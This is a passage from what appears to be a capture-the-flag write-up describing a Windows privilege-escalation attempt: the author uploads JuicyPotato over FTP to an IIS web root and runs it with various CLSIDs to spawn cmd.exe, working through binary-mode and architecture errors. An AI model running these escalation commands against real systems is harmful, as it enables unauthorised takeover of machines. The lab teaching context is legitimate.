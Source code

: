 Then tried to execute using the first CLSID on the list:

```cmd
c:\inetpub\wwwroot>JuicyPotato.exe -l 414 -p c:\windows\system32\cmd.exe -t * -c {555F3418-D99E-4E51-800A-6E89CFD8B1D7}
JuicyPotato.exe -l 414 -p c:\windows\system32\cmd.exe -t * -c {555F3418-D99E-4E51-800A-6E89CFD8B1D7}
This program cannot be run in DOS mode.
```

I tried a couple more CLSIDs and a different port, but no luck. I looked up the error, and found [this post](https://superuser.com/questions/476808/i-am-getting-this-program-cannot-be-run-in-dos-mode-in-windows-xp):

![](/assets/images/blogs/Pasted image 20210614123703.png)

So I need to turn on binary mode. [This post](https://docs.oracle.com/cd/E19120-01/open.solaris/819-1634/remotehowtoaccess-60496/index.html) shows us how:

```bash
ftp> binary
200 Type set to I.
ftp> put JuicyPotato.exe 
local: JuicyPotato.exe remote: JuicyPotato.exe
200 PORT command successful.
150 Opening BINARY mode data connection.
226 Transfer complete.
347648 bytes sent in 0.28 secs (1.1910 MB/s)
```

This time it executed! But it wasn't the right architecture, apparently:

```cmd
c:\inetpub\wwwroot>JuicyPotato.exe -l 414 -p c:\windows\system32\cmd.exe -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
JuicyPotato.exe -l 414 -p c:\windows\system32\cmd.exe -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
This version of c:\inetpub\wwwroot\JuicyPotato.exe is not compatible with the version of Windows you're running. Check your computer's system information to see whether you need a x86 (32-bit) or x64 (64-bit) version of the program, and then contact the software publisher.
```

It was then I realised I'd misread the `systeminfo` - the processor type is `x64`, but the system is `x86`.

No bother - we have an `x86` version too. Let's upload it:

```bash
ftp> put Juicy.Potato.x86.exe 
local: Juicy.Potato.x86.exe remote: Juicy.Potato.x86.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
263680 bytes sent in 0.33 secs (789.3519 kB/s)
```

Then execute it:
